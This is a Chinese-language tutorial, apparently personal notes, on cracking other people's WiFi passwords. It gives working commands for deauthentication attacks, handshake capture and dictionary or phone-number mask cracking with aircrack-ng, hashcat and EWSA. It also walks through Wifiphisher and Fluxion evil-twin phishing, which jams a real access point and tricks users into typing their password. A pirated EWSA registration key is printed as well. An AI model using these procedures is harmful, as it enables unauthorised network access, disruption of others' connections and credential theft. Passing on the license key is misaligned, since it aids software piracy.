


# 破解wifi密码

## Aircrack-ng 工具

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。

### 网上教程

[教程链接](https://tieba.baidu.com/p/7981575504)
[教程链接2](https://www.jianshu.com/p/2ec8b2ef84ae)
[教程链接3](https://blog.csdn.net/Pythonicc/article/details/105029705)
[教程链接4](https://www.aneasystone.com/archives/2016/08/wireless-analysis-one-monitoring.html)

我按网上的教程，在扫描WiFi时，扫描不到，经多次尝试，按我下面的步骤可以成功

### 用kali虚拟机（不推荐）

#### 前置条件

一个kali支持的无线网卡，芯片3070/8187/5370都可以
注意，因为kali是安装在虚拟机里的，不能直接调用宿主机自带的ax200无线网卡，但是可以调用USB无线网卡，这里我使用的是RT3070L芯片的网卡

#### step0：关掉干扰进程

```shell
su root
# 关掉干扰进程，执行之后会整个系统断网，不要惊慌
airmon-ng check kill
```

#### step1：启用网卡的监听模式

在usb2.0接口插上RT3070L无线网卡
在虚拟机中启用这个USB设备

网卡我用风扇散热，过热的话抓不到数据

```shell
# 用这个命令应该能看到wlan0网卡
ifconfig -a
# 如果用这个命令也能看到wlan0网卡，说明这个网卡被启用
ifconfig
# 如果wlan0网卡已启用，就禁用这个网卡
ifconfig wlan0 down
# 这时用这个命令应该看不到wlan0网卡
ifconfig
# 看到wlan0网卡的模式为Managed
iwconfig
# 将wlan0网卡的模式改为Monitor
iwconfig wlan0 mode monitor
# 再启用wlan0网卡
ifconfig wlan0 up
# 如果能看到wlan0网卡，说明这个网卡被启用
ifconfig
# 开启监听
airmon-ng start wlan0
# 这时候应该不会提示执行 airmon-ng check kill
```


查看自己的网卡是什么芯片可以使用
```shell
lsusb
dmesg -T
```


#### step2：扫描WiFi

在root目录下创建wifi_crack文件夹（用于保存抓到的握手包），并进入


```shell
# 探测所有无线网络，抓取数据包
airodump-ng wlan0
```

有时候扫描不到WiFi，那就在虚拟机设置中拔出再插入USB网线网卡，然后从step1开始执行


字段解释：
- BSSID：表示无线 AP 的 MAC 地址
- PWR：信号强度，它的值一般都是一个负数，值越大，表示信号越强。如果 PWR 值为 -1，说明不支持信号强度的查看
- Beacons：Beacon 是无线数据包中最有用的一种，叫做信号数据包。802.11 的数据包按类型可以分成三类：管理、控制和数据。管理类数据包又可以分为三种子类型：认证（authentication）、关联（association）和信号（beacon）数据包。Beacon 由 WAP 发送，穿过无线信道通知所有无线客户端存在这个 WAP，并定义了连接它必须设置的一些参数
- #Data：捕获到的数据分组的数量，包括广播分组
- CH：信道号
- MB：WAP 所支持的最大速率
- ENC：使用的加密算法体系。OPN 表示无加密，WEP? 表示 WEP 或者 WPA/WPA2，WEP 表示静态的或者动态的 WEP，当然，WEP 加密很早就已经遭淘汰了，目前最常见的是 WPA 和 WPA2
- CIPHER：使用的加密算法。常见的算法有：CCMP、WRAAP、TKIP、WEP 等
- AUTH：使用的认证协议。常用的有：MGT（WPA/WPA2 使用独立的认证服务器，譬如 802.1x、RADIUS、EAP 等），SKA（WEP 的共享密钥），PSK（WPA/WPA2 的预共享密钥）和 OPN（开放式）
- ESSID：所谓的 SSID 号，如果启用隐藏的话，ESSID 可以为空，或者显示为 <length: 0>
- STATION：客户端的 Mac 地址，包括连上的和想要连的客户端。如果客户端没有连上 AP，ESSID 列显示成 (not associated)
- Probe：被客户端查探的 ESSID，如果客户端正在试图连接一个 AP，但是没有连接上，将会显示在这里

#### step3：攻击并抓取握手包

通过抓去这个指定bssid我已经看到有一个用户连接，STATION可以看到
接下来进行握手包抓取了
```shell
# 探测指定的无线网络
# 参数：
# -c 指定频道号
# --bssid 指定路由器bssid
# -w 指定抓取的握手包存储路径
# 最后是指定网卡接口
airodump-ng wlan0 -c 1 --bssid 94:0C:6D:46:51:52 -w ./
```


到现在为止，我只有一个终端窗口
请勿多开终端窗口，不然可能导致一直抓不到信息

对其中的一个连接进行攻击，使其对AP断开连接
注意：此时我上面一个终端窗口并没有停止抓包，而是一只运行着，我下面是新开的一个终端，现在一共打开两个终端窗口

aireplay-ng是一个注入帧的工具
接下来进行
```shell
# 对指定BSSID的目标网络发送解除认证数据包，迫使客户端重新认证并捕获握手数据包
# 参数：
# -0 表示解除认证攻击，后接的数字是攻击次数
# -a 指定无线路由器BSSID
# -c 指定强制断开的设备
# 最后是指定网卡接口
aireplay-ng -0 10 -a 94:0C:6D:46:51:52 -c 8A:07:74:A1:D2:D9 wlan0
```

[Aircrack-ng之Aireplay-ng命令详解](https://blog.csdn.net/qq_28208251/article/details/48115815)

根据无线网络路由器的MAC地址和连接无线网络的设备的MAC地址对指定目标发起deauth反认证包攻击，让那个设备断开wifi，随后它自然会再次连接wifi，当它自动重新连接wifi的时候，我们的攻击终端便能抓到握手包


第一个终端右上角提示拿到了握手包，握手包保存到了当前目录下的cap格式文件



#### step4：破解密码

##### 使用aircrack-ng

现在需要字典

[利用kali生成字典的三种方式](https://blog.csdn.net/qq_44204058/article/details/115562895)

kali自带字典的目录为
```shell
/usr/share/wordlists/
```

对刚才抓取到的握手包进行密码破解
```shell
# 跑字典
# 参数：
# -w 指定字典
# 最后是指定保存了握手包的cap格式文件
aircrack-ng -w ./pass_test.txt ./-18.cap
```


这里为了测试，我把已知正确的密码加到了字典文件中
破解成功

##### 使用Hashcat

###### 生成字典

用中国大陆手机号字典

[生成全部中国大陆手机号字典](https://blog.zhouqian.wang/index.php/2023/03/13/crunch-hashcat-%e7%a4%be%e5%b7%a5%e5%af%86%e7%a0%81%e7%bb%84%e5%90%8811%e4%bd%8d%e6%89%8b%e6%9c%ba%e5%8f%b7-%e5%a7%93%e5%90%8d%e7%94%9f%e6%97%a5%e7%bc%a9%e5%86%99%ef%bc%8c%e9%81%bf%e5%85%8d/)

用两本字典来组合


[使用crunch创建密码字典](https://www.cnblogs.com/itwangqiang/p/14878789.html)

```shell
crunch 9 9 -t %%%%%%%%% -o mobilephone_tail.txt 
```


###### 握手包格式转换（cap to hc22000）

现在很多关于hashcat的博客关于转换的描述都说是cap转换为hccap格式，但是这种格式其实已经不适用于现在的hashcat版本了，在hashcat6.0版本之后，-m 2500 和 -m 16800 已经被更改为 -m 22000 了

首先要把airodump抓取的cap文件转化为hc22000格式

[在线转换网站](https://hashcat.net/cap2hashcat/)

###### 破解

[Hashcat详解](https://www.sqlsec.com/2019/10/hashcat.html)
[Hashcat使用](https://blog.csdn.net/m0_50177728/article/details/124003791)
[Hashcat使用2](https://www.cnblogs.com/diligenceday/p/6359661.html)

使用hashcat组合破解模式

```shell
# 跑字典
# 参数：
# -a 指定攻击模式，1 代表组合破解
# -m 指定破解模式，22000 代表握手包破解模式
# -o 表示结果输出路径
# 最后是指定字典文件，组合破解时，注意字典的顺序
hashcat -a 1 -m 22000 ./1880_1688381391.hc22000 -o wifi_passwd_result.txt mobilephone_head.txt mobilephone_tail.txt
```


这个就是运行中的结果，在运行过程中可以向终端输入命令s来查看实时破解状态

这里在kali虚拟机中的破解速度很慢，那就用windows宿主机破解（EWSA软件）

##### EWSA跑包

在windows系统中安装EWSA（Elcomsoft Wireless Security Auditor）

[EWSA软件下载网址](https://www.jb51.net/softs/359426.html)

下载后解压并安装

可用的注册码
```
EWSA-173-HC1UW-L3EGT-FFJ3O-SOQB3
```

[EWSA使用教程](https://www.key-iot.com/news/16479.html)

导入cap格式的文件


使用掩码破解

我们点一下“添加”按钮，输入3456789，确定。

然后修改一下掩码，在8个?d前面加上1?1?d，点击应用、确定。这里第一个1没别的意思，就是1的意思，我们的手机号都是1开头的，?1里面的1是我们刚刚添加的一个定义，默认分到的序号是1，我们手机号的第二位都是3456789，没有其他数字，?d是为了凑齐十一位数。
点击开始破解，掩码攻击，就开始破解以手机号为密码的WiFi密码了。


开始掩码攻击


发现核显的电脑比独显的电脑慢很多，换用独显电脑


破解成功

### 用树莓派（推荐）

第一个终端：
```shell
su root
# 如果网卡没有启动，就手动启动
ifconfig wlan0 up
# 把wlan0网卡切换到监听模式
airmon-ng start wlan0
# 杀掉可能影响监听的进程
airmon-ng check kill
# 扫描WiFi
airodump-ng wlan0mon
# 监听某个指定的WiFi并尝试抓取握手包，保存到当前目录
airodump-ng wlan0mon -c [频道号] --bssid [路由器的mac地址] -w ./
```

第二个终端：
```shell
# 对指定目标发起deauth反认证包攻击
aireplay-ng -0 [攻击次数] -a [路由器的mac地址] -c [连接设备的mac地址] wlan0mon
```

可多次攻击，等待第一个终端提示抓到握手包，之后流程与上面用kali虚拟机相同

## WiFiphisher 工具

Wifiphisher是一个安全工具,具有安装快速、自动化搭建的优点，利用它搭建起来的网络钓鱼攻击WiFi可以轻松获得密码和其他凭证。与其它（网络钓鱼）不同，这是社会工程攻击，不包含任何的暴力破解，它能轻松获得门户网站和第三方登陆页面的证书或WPA/WPA2的密钥。

[WiFiphisher的GitHub](https://github.com/wifiphisher/wifiphisher)

### 原理

1. 它会先创建一个伪造的无线访问接入点（AP）并把自己伪装成一个合法的WiFi AP，然后向合法无线访问接入点（AP）发动DoS攻击，或者在其周围创建一个射频干扰。 Wifiphisher通过伪造“去认证”或“分离”数据包来破坏现有的关联，从而不断地在范围内阻塞所有目标接入点的wifi设备。
2. 受攻击者登录假冒AP。Wifiphisher会嗅探附近无线区域并拷贝目标AP的设置，然后创建一个假冒AP，并设置NAT/DHCP服务器转发对应端口数据。那些被解除认证的客户端会尝试连接假冒AP。
3. 无论受害者访问什么页面，WiFiPhisher都会向受害者提供一个很逼真的路由器配置更改界面，并称由于路由器固件更新需修改路由器密码，Wifiphisher使用一个最小的web服务器来响应HTTP和HTTPS请求。一旦受害者请求互联网的页面，wifiphisher会用一个真实的假页面来回应，要求提供凭证或服务恶意软件。这个页面将专门为受害者制作。例如，一个路由器配置文件的页面将包含受害者的供应商的品牌。该工具支持针对不同钓鱼场景的社区构建模板。

### 网上教程

[英文教程](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-get-anyones-wi-fi-password-without-cracking-using-wifiphisher-0165154/)
[中文教程](https://zhuanlan.zhihu.com/p/149945656)

### 用kali虚拟机（不推荐）

#### 前置条件

##### 安装

```shell
apt install wifiphisher
```

#### 扫描WiFi

在虚拟机中就是扫不到，像上面那样手动把网卡切换到监听模式也不行，不玩了，换树莓派

### 用树莓派（推荐）

```shell
wifiphisher -i wlan0
```

选择一个被扫描到的WiFi


选择钓鱼的方法，这里选择 4


现在，原WiFi被干扰，连接不上，新出现了一个和原WiFi同名但是没有密码的WiFi
被钓鱼用户连接上，就会弹出如下界面


被钓鱼用户输入密码之后显示如下


然后wifiphisher就拿到被钓鱼用户输入的密码（没做验证，不一定是正确的）


## Fluxion 工具

钓鱼wifi的框架工具
就是做伪AP，很经典的欺骗方式


[Fluxion的GitHub](https://github.com/FluxionNetwork/fluxion)

### 原理

1. 扫描能够接收到的wifi信号
2. 抓取握手包，可以选择跑包，但是fluxion更为直接的是利用握手包来验证后边用户输入的密码
3. 启用Web接口
4. 生成一个和之前选择的AP名称相同的假的AP，模拟原来的接入点
5. 生成一个MDK3进程，如果用户已经连接到这个WIFI（真实），也会输入密码
6. 启动一个模拟的DNS服务器，并且抓取所有的DNS请求，并且将所有的请求重定向到一个含有恶意脚本的HOST地址
7. 在用户的终端会弹出一个窗口来让用户输入密码
8. 程序会将用户输入的密码和之前抓到的握手包来进行比较，比对密码是否正确，如果用户密码输入的不正确，那么窗口会提示密码输入不正确，直至用户密码输入正确为止。
9. 用户输入正确的密码之后，假的AP停止，fluxion会返回正确的密码给操作者，并且将用户输入的所有密码记录在文档中

### 网上教程

[教程链接](https://www.freebuf.com/articles/wireless/283395.html)

### 用kali虚拟机（不推荐）

#### 前置条件

##### 安装

```shell
git clone git@github.com:FluxionNetwork/fluxion.git
cd fluxion
./fluxion.sh
# 安装必要的依赖
./fluxion.sh -i
```

安装位置：/root/software_download/fluxion/

#### 捕获目标握手包

攻击方式选择2


对WiFi进行扫描


选择要攻击的WiFi


选择跳过


选择2


选择推荐的


之后会自动进行攻击，握手包抓取成功后如下图，选择1


##### 如果扫描不到WiFi

退出fluxion并执行
```shell
iwconfig wlan0 mode monitor
ifconfig wlan0 up
airmon-ng start wlan0
```
然后再进入fluxion再次扫描WiFi

#### 攻击真实ap，伪造钓鱼ap，获取密码

攻击方式选择1


选择Y


选择跳过


选择2


选择2


选择1


选择1


选择1，使用刚刚抓取到的hash文件


选择推荐的


选择1


选择推荐的


选择钓鱼模板，这里我选择3


选择完钓鱼模板后，会自动开启钓鱼服务，正常应该弹出下图的六个窗口
分别代表 钓鱼ap的服务信息，dns信息，认证密码保存信息，服务器的访问记录以及攻击真实ap的记录（下图是在网上找的一张运行正常的截图）


##### 如果DHCP服务启动失败

但是我到这一步时，fluxion启动DHCP服务失败，只弹出了五个窗口


被钓鱼端提示无法加入这个WiFi网络


[fluxion 无法连接虚假AP热点，DHCP服务启动失败解决方案](https://www.codenong.com/cs109240619/)

定位到attack.sh文件的第1468行


其中 $FLUXIONWorkspacePath 的值为 /tmp/fluxspace

其中文中中的命令
```shell
dhcpd -d -f -lf \"$FLUXIONWorkspacePath/dhcpd.leases
```
等效于在 /tmp/fluxspace 目录下执行命令
```shell
dhcpd -d -f -lf ./dhcpd.leases
```

执行报错了


前加 sudo
```shell
sudo dhcpd -d -f -lf ./dhcpd.leases
```

用root权限执行也报错


查看文件的权限设置


```shell
chmod 777 dhcpd.leases 
```
修改权限后，还是一样报错

退出攻击后，可见 /tmp/fluxspace 文件夹里的文件少了许多

这个思路不通，换个角度试试

在反复恢复攻击时，发现下图的报错


搞不好，不用虚拟机了，换树莓派

### 用树莓派（推荐）

前面的步骤都相同，但是在树莓派的kali系统中，fluxion启动DHCP服务成功


现在，原WiFi被干扰，连接不上，新出现了一个和原WiFi同名但是没有密码的WiFi
被钓鱼用户连接上，就会弹出如下界面


被钓鱼用户如果输入错误的密码（会做验证），显示如下


被钓鱼用户如果输入正确的密码（会做验证），显示如下


查看密码（经过fluxion验证是正确的）


与wifiphisher相比，fluxion会验证别钓鱼者输入密码的正确性


---

如果你运气比较好，对方有开放pin那最好了，最多半小时搞定。


